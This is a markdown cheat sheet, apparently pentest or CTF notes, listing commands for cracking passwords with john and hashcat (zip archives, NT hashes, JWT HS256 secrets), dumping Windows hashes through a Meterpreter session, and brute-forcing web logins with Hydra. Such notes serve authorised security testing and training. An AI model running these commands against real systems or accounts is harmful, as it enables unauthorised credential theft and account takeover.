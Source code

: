 # Password attacks
## john
- Crack password protected zip archives
```bash
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist
```

- Crack salted SHA512 hash
```bash
# hashfile format: hash$salt
john --format='dynamic=sha512($p.$s)' --wordlist=/path/to/wordlist ./hashfile
```

- Crack Windows hash
```sh
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hashcat
- attack modes
```bash
# dictionary attack
-a0
# combinator attack
-a1
# bruteforce / mask attack
-a3
# hybrid wordlist+mask
-a6
# hybrid mask+wordlist
-a7
```
- hash types
```bash
# jwt
-m 16500
```

### mask attack
| code | chars                      |
| ---- | -------------------------- |
| ?l   | abcdefghijklmnopqrstuvwxyz |
| ?u   | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| ?d   | 0123456789                 |
| ?h   | 0123456789abcdef           |
| ?H   | 0123456789ABCDEF           |
| ?s   | «space»!"#$%&'()*          |
| ?a   | ?l?u?d?s                   |
| ?b   | 0x00 - 0xff                |

```bash
# define custom charset
-1 ?h?H?d
# define mask
?1?1?1
# command
-a3 -1 ?h?H?d ?1?1?1
```

### HS256 JWT secret
```bash
# mask attack 4-12 char [a-z0-9]
hashcat -a 3 -m 16500 jwt.txt ?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld -i --increment-min=4

# dictionary attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt

# distionary rule-based attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
```

## Metasploit
- Crack previously dumped Windows hash
```sh
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run
```


# Brute forcing
## Hydra
- Bruteforce login/password combination
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```
- Find password for a known user
```
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```

## Links
___
### Guides
- https://github.com/frizb/Hydra-Cheatsheet
- https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py

### Writeups
- 